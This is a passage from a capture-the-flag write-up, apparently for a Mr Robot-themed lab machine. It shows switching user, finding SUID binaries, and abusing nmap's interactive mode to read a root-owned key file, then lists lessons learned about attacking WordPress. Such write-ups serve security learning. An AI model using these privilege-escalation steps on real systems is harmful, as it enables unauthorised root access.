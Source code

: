 ## RSHELL

### redentialed Enumeration (Continued)

Changed user to robot and got the second key from robot's home folder.

````
su - robot
cat /home/robot/key-2-of-3.txt
````

### Privilege Escalation

Nmap had SUID bit set. This is the chosen avenue for privesc.

````
find / -perm -4000 2>/dev/null

/usr/local/bin/nmap
````

GTFOBins confirmed that there is an exploit for this. However, NMAP seems to have an interactive shell which runs in root context. Interactive shell was chosen due to its direct path to the end goal.

````
# Read the last key
./usr/local/bin/nmap --interactive
!cat /root/key-3-of-3.txt
````

## Lessons Learned

- The website was cool! :D
- /license file fooled me at first. I should've used inspector and not just verify source code. It's not that you can't read the password from the source code but I just missed the fact that I had to roll down the source code since the password was in the end of it. A silly mistake to be honest.
- I didn't know Nmap had an interactive shell. I'm sure this will come useful. 
- Hacking Wordpress is an easy process if it's A) vulnerable - most often it's the templates that are vulnerable or B) you have some creds.